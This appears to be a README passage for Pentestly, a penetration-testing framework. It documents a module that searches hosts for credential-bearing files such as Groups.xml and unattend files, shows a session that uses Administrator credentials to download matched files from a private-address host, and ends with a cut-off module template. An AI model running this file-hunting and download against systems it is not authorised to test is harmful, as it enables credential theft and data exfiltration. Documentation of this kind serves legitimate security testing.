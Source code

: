 ## Find/Download interesting files

```
[pentestly][default][interesting_files] > show options

    Name     Current Value                                                                                                                              Required  Description
    -------  -------------                                                                                                                              --------  -----------
    PATTERN  (Groups.xml|Services.xml|Printers.xml|Drives.xml|DataSources.xml|ScheduledTasks.xml|unattend|important|passw|backup|setup).*[^dll][^exe]$  yes       Regex pattern to look for in filenames
    SOURCE   default                                                                                                                                    yes       source of input (see 'show info' for details)
```

Can change the `pattern` to something a bit more specialized

```
[pentestly][default][interesting_files] > set pattern important.txt|super_secret
PATTERN => important.txt|super_secret
[pentestly][default][interesting_files] > show options

    Name     Current Value               Required  Description
    -------  -------------               --------  -----------
    PATTERN  important.txt|super_secret  yes       Regex pattern to look for in filenames
    SOURCE   default                     yes       source of input (see 'show info' for details)
```

Execute and download found files

```
[pentestly][default][interesting_files] > run
[*] Administrator
[*] Execution creds: workgroup\Administrator:BadAdminPassword@192.168.224.252
[+] Match found! Downloading: Users\Administrator\Desktop\important.txt.txt
192.168.224.252-Users_Administrator_Desktop_important.txt.txt
[+] Match found! Downloading: Users\Administrator\Desktop\super_secret.txt
192.168.224.252-Users_Administrator_Desktop_super_secret.txt
```

# Contributing

Creating new modules is easy in Pentestly. Begin with the code provided in `skeleton.py`:

```
from libs.pentestlymodule import PentestlyModule

class Module(PentestlyModule):

    meta = {
        'name': 'Your module name goes here',
        'author': 'Developer name goes here',
        'description': 'Description of the module goes here',
        'query': 'SQL QUERY whose result is passed to your module',
        'options': (
            ('Option1', 'Default Value', Required-True/False, 'Description of option'),
        ),
    }

    def module_pre(self):
        # Optional
        # Happens before your module

    def module_run(self, data):
```